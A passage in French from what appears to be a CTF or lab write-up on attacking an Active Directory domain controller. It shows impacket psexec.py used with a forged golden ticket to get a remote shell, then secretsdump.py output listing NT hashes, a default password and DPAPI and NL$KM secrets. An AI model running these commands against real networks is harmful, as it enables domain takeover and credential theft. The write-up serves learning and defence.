 ### Metal Gear AD

J'ai utilisé les scripts impacket pour la suite. Metasploit fonctionnerait tout aussi bien.
Les scripts exemples dans impacket peuvent utiliser un ticket d'or si on renseigne le ccache dans la variable d'environnement KRB5CCNAME :`export KRB5CCNAME=Administrator.ccache`
Le ccache est le fichier créé par ticketer.

On commence par un petit psexec.
```
proxychains impacket/examples/psexec.py Administrator@dcfil.pramafil.corp -k -no-pass
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:88-<><>-OK
[*] Requesting shares on dcfil.pramafil.corp.....
[*] Found writable share ADMIN$
[*] Uploading file gQZqWdyq.exe
[*] Opening SVCManager on dcfil.pramafil.corp.....
[*] Creating service oewK on dcfil.pramafil.corp.....
[*] Starting service oewK.....
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:88-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:88-<><>-OK
[!] Press help for extra shell commands
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:445-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.10.0.202:88-<><>-OK
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Le ticket fonctionne donc correctement. On va utiliser secretdumps qui va extraire les hash pour nous.

```
proxychains impacket/examples/secretsdump.py Administrator@dcfil.pramafil.corp -k -no-pass

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Target system bootKey: 0xddb5bc4404915a7d530c6bda9164dc3d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:90b46b849c3f17a268abb06a39c25fb4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:5dff2a6203bc4e53f0510a2868018039:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PRAMAFIL\DCFIL$:aad3b435b51404eeaad3b435b51404ee:6a7a6007fdb7b82c61dda608f599d4e6:::
[*] DefaultPassword 
(Unknown User):ROOT#123
[*] DPAPI_SYSTEM 
 0000   01 00 00 00 A4 65 A2 11  C0 40 E2 C5 CA 4E E0 D4   .....e...@...N..
 0010   32 A8 BB 25 20 8C FB EC  22 20 17 B3 80 E1 84 49   2..% ..." .....I
 0020   0A 2F 86 91 5C 54 68 3F  7E 28 05 58               ./..\Th?~(.X
DPAPI_SYSTEM:01000000a465a211c040e2c5ca4ee0d432a8bb25208cfbec222017b380e184490a2f86915c54683f7e280558
[*] NL$KM 
 0000   2B ED AB 03 48 CB E1 07  9B A3 4D FA 70 AB E1 EB   +...H.....M.p...
 0010   14 67 15 7A DB 28 F0 4D  3C B3 B7 34 45 68 83 CB   .g.z.(.M<..4Eh..
 0020   77 1E 98 24 2F 36 FC 65  B3 E0 70 80 ED 8A 66 B1   w..$/6.e..p...f.
 0030   12 37 EA 13 FA A1 5A F5  95 0A 29 44 0A 5B 50 12   .7....Z...)D.[P.
```